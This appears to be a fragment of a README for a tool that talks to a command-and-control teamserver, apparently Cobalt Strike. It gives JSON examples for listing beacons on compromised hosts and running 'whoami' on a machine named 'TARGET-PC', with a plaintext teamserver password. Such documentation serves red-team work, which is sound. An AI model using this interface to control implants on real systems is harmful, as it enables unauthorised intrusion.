 ## Cross-Platform Support
- **Windows**: Full support with native integration
- **Linux**: Complete functionality
- **macOS**: Full feature support
- **Android**: Mobile-optimized interface
- **iOS**: Native iOS integration

## Examples

### Example 1: Basic Beacon Interaction
```bash
# List beacons
{
  "action": "list_beacons",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}

# Result
{
  "success": true,
  "result": {
    "beacons": [
      {
        "beacon_id": "beacon_001",
        "hostname": "TARGET-PC",
        "status": "active"
      }
    ]
  }
}
```

### Example 2: Command Execution
```bash
# Execute command
{
  "action": "execute_command",
  "beacon_id": "beacon_001",
  "command": "whoami",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}

# Result
{
  "success": true,
  "result": {
    "command": "whoami",
    "output": "TARGET-PC\\user",
    "execution_time": "00:00:01"
  }
}
```
